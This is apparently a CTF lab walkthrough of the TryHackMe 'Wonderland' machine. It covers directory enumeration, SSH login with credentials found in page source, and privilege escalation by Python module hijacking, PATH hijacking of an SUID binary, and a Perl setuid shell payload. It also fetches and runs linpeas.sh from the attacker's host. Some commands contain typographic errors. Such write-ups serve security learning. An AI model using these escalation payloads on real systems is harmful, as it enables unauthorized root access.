

# 🐰 Wonderlands walkthrough / the Rabbit hole


```
"04.06.2024"
```


Link to CTF on TryHackMe


## Initial Reconnaissance

We begin our exploration with a standard Nmap scan to identify open ports on the target machine. The scan results show two open ports: 80 (HTTP) and 22 (SSH).

```bash
nmap target_ip
```

<div align="center" data-full-width="false"><figure><figcaption></figcaption></figure></div>

## Web Page Investigation

First, we check port 80 and visit the webpage. At first look, there is nothing interesting on the main page, so we check the source code.

<figure><figcaption></figcaption></figure>

In the source code, we find an "img" directory with images from the site. So lets dive deeper and check if this directory contains something interesting. There are only three photos. At first, I thought they weren't needed for this CTF. I quickly checked them for hidden binaries and found nothing. But after completing the CTF, in one of the write-ups I found that one of the images uses cryptography to hide a hint for us. Unfortunately, we took a longer path, but in the end, we still got the same results.

<div align="center"><figure><figcaption></figcaption></figure></div>

### **Finding More Directories**

Lets run gobuster scan and check web page for potential directories undiscovered or hidden files.

```bash
gobuster dir -w directory_list -u http://target_ip
```

<figure><figcaption></figcaption></figure>

Using Gobuster, we got the response from "img" directory (that was previously discovered by us), and another one named "r". Visiting this new directory in the browser, we see a quote: "Would you tell me, please, which way I ought to go from here?" <mark style="background-color:green;">This tells us there is more to find.</mark>

<figure><figcaption></figcaption></figure>

We continue using Gobuster and find a path of directories **(/r/a/b/b/i/t/)**, which leads us to hidden credentials in the source code.

<figure><figcaption></figcaption></figure>

## Privileges Escalation&#x20;

With these credentials, we can log in via SSH.

In our home folder, we discovered a few interesting files.

1. **root.txt**, which can be accessed only by the root user and usually serves as the final flag in most CTFs.
2. A Python file that we will explore later.

<figure><figcaption></figcaption></figure>

For now, let's check if our user is allowed to run something with sudo or as another user. The response provides us information about the privileges to run a specific Python file from our folder as the user named 'rabbit'.

```bash
sudo -l 
```

<figure><figcaption></figcaption></figure>

Looking at "walrus\_and\_the\_carpenter.py", we see it prints random lines from a poem and uses the <mark style="background-color:green;">random</mark> module. We can use this to escalate our privileges by creating a malicious <mark style="background-color:green;">random.py</mark> file. The code below will import the **pty** module and spawn a bash shell under the name of the user who runs it.

```bash
vi random.py

# code to insert into random.py file
import pty
pty. spawn(‘/bin/bash')
```

We then run the script with sudo and the **rabbit** user. This will give us a prompt to the 'rabbit' shell.

```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

<figure><figcaption></figcaption></figure>

### Escaping the Rabbit

As the **rabbit** user, we find an SUID binary called "teaParty". Running it doesn't give us anything useful at first. We decide to use the **strings** command to check it, but it is not installed on the target machine. So, we transfer "teaParty" to our local machine to analyze it.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```bash
cp teaParty /tmp

scp alice@target_ip:/tmp/teaParty ./teaParty
```

Now, let's run **strings** on this file. After some investigation, we discovered the use of <mark style="background-color:green;">date</mark> without a specified path. So, we can try to use the same principle as with the 'rabbit' user and the Python file. We will create a **date** file in the 'rabbit' home directory with a command that will run a shell.

<figure><figcaption></figcaption></figure>

Lets connect back to the machine, and create file with name ‘date’.

```bash
vi date

#!/bin/bash 
/bin/bash
```

Now, we need to export the default variable path to the current directory and add execute privileges to the created file. This will allow us to change the <mark style="background-color:green;">date</mark> command functionality from the default to the one specified in the created **date** file. Let's activate it and see whose shell we land in.

```bash
export PATH=/home/rabbit: $PATH
chmod +x date
```

<figure><figcaption></figcaption></figure>

### Using Automated Tools&#x20;

We will use **linpeas.sh** to find more ways to escalate our privileges. After transferring and running the script, we see that <mark style="background-color:green;">Perl</mark> has broken capabilities. Let's check GTFOBins for some valid payloads.

```bash
python3 -m http.server

wget http://your_ip:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Now, we can try to run them all and potentially get the root shell.

```bash
cp $(which perl) .
sudo setcap cap_setuid+ep perl
perl -e 'use POSIX qw(setuid); POSIX:: setuid(0); exec “/bin/sh”;’
```

And boom, we're in the root shell. Now, we can copy the user and root flags from their corresponding folders.

<figure><figcaption></figcaption></figure>


<mark style="color:green;">user.txt</mark> & <mark style="color:green;">root.txt</mark>


Thanks to all the readers for following along with my journey! Hope you have learnt something new!
